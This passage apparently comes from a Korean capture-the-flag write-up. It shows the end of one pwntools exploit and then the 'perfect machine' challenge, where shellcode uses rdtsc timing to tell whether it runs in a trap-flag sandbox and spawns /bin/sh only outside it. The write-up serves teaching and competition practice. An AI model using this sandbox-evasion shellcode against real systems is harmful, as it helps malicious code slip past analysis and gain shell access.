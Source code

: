 ```python
sleep(1)
p.send(payload)
sleep(1)
payload=bug(0x700,pop_rdi)
p.send(payload)

p.interactive()
```

#### perfect machine

해당 문제의 컨셉은 다음과 같습니다.

seccomp 필터를 사용하지 않고, 트랩 게이트와 시그널 핸들러만을 이용해서 구현한 샌드박스를 탐지하는 컨셉의 문제입니다. 유저가 입력한 쉘코드는 샌드박스에서 테스트하며 랜덤한 숫자만큼 쉘코드를 돌려서 코드가 안전한지 검사합니다. 만약 검사를 통과하면 샌드박스 외부에서 코드를 실행시킵니다. 이 때 검사하는 요소는 아래와 같습니다. 
* 시스템 콜 검사 (`open`, `read`, `write`)
* 모든 범용 레지스터에 `proc`, `flag.txt` 문자열 사용 불가능
* 샌드박스 외부로 점프 불가능
* eflag의 trap flag 비활성화 불가능
* 샌드박스 내부에서 시스템콜은 실행되지 않고 패스됨
* 민감 데이터는 샌드박스 실행시 PROT_NONE 상태로 매핑됨

코드 테스트는 무작위 횟수만큼 테스트 되는데, 이는 단순한 숫자 카운팅으로 샌드박스 내부에서 쉘코드가 실행중인지 판단하여 조건부로 코드를 실행하는 것을 방지하기 위함입니다.

취약점은 다음과 같습니다.
- 샌드박스는 기본적으로 `SIGTRAP` 시그널을 처리해서 동작하기 때문에 샌드박스 내부 코드 명령어 실행에는 굉장한 오버헤드가 존재합니. 따라서 `rdtsc` 또는 `rdtscp` 명령어를 사용해서 코드가 샌드박스 내부에 있는지 알 수 있습니다. 그 외에도 가능한 방법은 libc 메모리에 접근하여 랜덤 시드값을 알아내는 방법등이 있을 수 있습니다.

exploit.py
- 코드에서 `cmp rax, 0x8500` 부분은 시스템 별로 차이가 있을 수 있음


```py
from pwn import *
context.arch='amd64'

p = remote('localhost', 15252)
shellcode = f'''
rdtsc
mov rdi, rax
mov rsi, rdx
nop
rdtsc
sub rax, rdi
cmp rax, 0x8500
jl gogo
jmp exit
gogo:
    xor eax, eax;
    push rax;
    mov rdi, 0x68732f6e69622f;
    push rdi;
    mov rdi, rsp;
    xor esi, esi;
    xor edx, edx;
    mov al, 0x3b;
    syscall;
exit:
    ret;
'''
payload = asm(shellcode)
p.sendlineafter(b"> ", payload)
p.interactive()
```